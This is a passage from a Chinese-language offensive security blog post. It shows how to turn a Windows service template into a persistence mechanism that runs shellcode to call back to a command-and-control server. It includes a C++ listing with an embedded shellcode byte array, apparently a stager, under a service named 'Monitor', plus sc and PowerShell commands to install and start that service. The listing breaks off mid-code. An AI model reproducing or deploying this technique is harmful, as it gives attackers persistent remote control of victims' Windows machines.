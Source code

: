 源代码：[https://github.com/Rvn0xsy/MyWin32CPP/blob/master/WindowsService.cpp](https://github.com/Rvn0xsy/MyWin32CPP/blob/master/WindowsService.cpp)

创建一个控制台应用程序，将源代码编译后就可以创建服务了，该服务会每隔5秒向`D:\log.txt`

写入信息。这里如果展开讲会花费不少时间，我直接把`SERVICE_RUNNING` 状态下的代码进行更改，使其执行Shellcode上线。

```c++
#include <Windows.h>
#include <stdio.h>  
// Windows 服务代码模板
////////////////////////////////////////////////////////////////////////////////////
// sc create Monitor binpath= Monitor.exe
// sc start Monitor
// sc delete Monitor
////////////////////////////////////////////////////////////////////////////////////
/**********************************************************************************/
////////////////////////////////////////////////////////////////////////////////////
// New-Service –Name Monitor –DisplayName Monitor –BinaryPathName "D:\Monitor\Monitor.exe" –StartupType Automatic
// Start-Service Monitor
// Stop-Service Monitor
////////////////////////////////////////////////////////////////////////////////////

unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
// ..............
"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

SERVICE_STATUS ServiceStatus;  /*服务状态*/
SERVICE_STATUS_HANDLE hStatus; /*服务状态句柄*/

void  ServiceMain(int argc, char** argv);
void  CtrlHandler(DWORD request);
int   InitService();

int main(int argc, CHAR* argv[])
{
    WCHAR WserviceName[] = TEXT("Monitor");
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = WserviceName;
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
    StartServiceCtrlDispatcher(ServiceTable);
    return 0;
}

/*Service initialization*/
int InitService()
{
    return(0);
}

/*Control Handler*/
void CtrlHandler(DWORD request)
{
    switch (request)
    {
    case SERVICE_CONTROL_STOP:

```